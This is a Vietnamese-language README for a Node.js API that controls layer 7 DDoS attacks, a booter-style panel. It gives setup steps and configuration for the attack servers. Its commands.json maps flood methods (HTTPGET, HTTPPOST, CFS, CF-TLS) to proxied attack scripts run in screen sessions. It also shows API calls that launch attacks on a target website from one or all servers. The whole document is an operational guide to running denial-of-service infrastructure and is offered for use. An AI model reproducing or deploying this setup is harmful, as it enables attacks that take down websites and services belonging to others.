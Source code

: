 <h2>API NodeJS cho các cuộc tấn công layer 7</h2>

<h4>API này rất an toàn và nhanh gấp đôi thời gian ping giữa API và chương trình phụ trợ</h4>
<h4>tức là ping 60 mili giây, sẽ chỉ mất 120 mili giây để khởi chạy cuộc tấn công</h4>


<h1>Cài đặt:</h1>

```sh
curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -
sudo apt -y install nodejs
npm i express
```

<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
{
    "alpha": {
        "name": "alpha",
        "ip": "1.1.1.1",
        "port": 3000
    },
    "beta": {
        "name": "beta",
        "ip": "2.2.2.2",
        "port": 3000
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "HTTPGET": "screen -dmS attack_${attack_id} ./http ${host} proxy.txt ${time}",
    "HTTPPOST": "screen -dmS attack_${attack_id} ./http ${host} proxy.txt ${time}",
    "CFS": "screen -dmS attack_${attack_id} node CFS.js ${host} ${time} ${thread} ${method} proxy.txt ${rq}",
    "CF-TLS": "screen -dmS attack_${attack_id} node CF-TLS.js ${host} ${time} ${thread} proxy.txt",
    "STOP": "screen -dm pkill -f ${host}"
}
```

<h3>Update api.js:</h3><br>

```js
const api_port = 8888; // Cổng API
const socket_token = "SOCKET_TOKEN"; // Mã thông báo TCP Socket, sử dụng số/chữ cái ngẫu nhiên
const api_key = "API_KEY"; // Khóa API của bạn
const domain_lock = false; // khóa api để chỉ được sử dụng từ một tên miền cụ thể
const api_domain = 'example.com'; // miền API của bạn (nếu domain_lock được đặt thành true)
```

<h3>Update socket.js:</h3><br>

```js
const socket_port = 3000;
const socket_token = "SOCKET_TOKEN";
const allowed_ips = ['1.1.1.1'];
```

## Sau đó, tải `socket.js` lên máy chủ tấn công và tải `api.js` `servers.json` và `commands.json` lên máy chủ API


### Proxy đảo ngược

Bạn nên tạo proxy ngược bằng Nginx để sử dụng API của mình:

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api/attack {
        proxy_pass http://backend:3000/api/attack;
    }
}
```

Thay thế `'http://backend:3000/api/attack'` bằng URL máy chủ API của bạn

### Sử dụng API

Gửi yêu cầu GET tới API bằng các trường bắt buộc

GET `https://api.yourdomain.com/api/attack?host=https://website.com&time=120&method=HTTPGET&server=alpha`

Bạn có thể đặt `&server=all` để khởi chạy tới tất cả các máy chủ

Bạn có thể ngăn chặn các cuộc tấn công bằng cách gửi yêu cầu GET tới API sử dụng `&method=stop`

GET `https://api.yourdomain.com/api/attack?host=https://website.com&time=120&method=stop&server=alpha`

